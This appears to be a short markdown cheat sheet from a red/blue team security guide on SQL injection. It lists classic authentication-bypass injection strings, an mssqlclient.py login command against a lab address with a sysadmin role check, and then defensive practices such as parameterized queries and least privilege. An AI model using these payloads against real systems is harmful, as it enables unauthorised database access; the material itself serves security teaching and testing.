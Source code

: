 # RedTeam

## SQL Injection: Quick and Dirty
```
‘ or 1='1
‘ or 1=1--
‘ or 1=1#
‘ or 1=1/*
‘) or ‘1’ =’1--
‘) or (‘1’=’1--
‘ || 1=’1
```

## Tools

#### mssqlclient.py
- `python3 mssqlclient.py USER@10.10.10.27 -windows-auth`
- `SELECT IS_SRVROLEMEMBER('sysadmin')`
   - Output "1" = yes

#### sqlmap

*Check out: [3_Exploitation/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md)*

<br />

# BlueTeam

## Best Practice

1. Use parameterized SQL Statements
2. Implement Input-Validation 
3. Minimal DB access rights 
4. Deactivate unnecessary standard features of your DB server
5. Patch your DB Server continuously
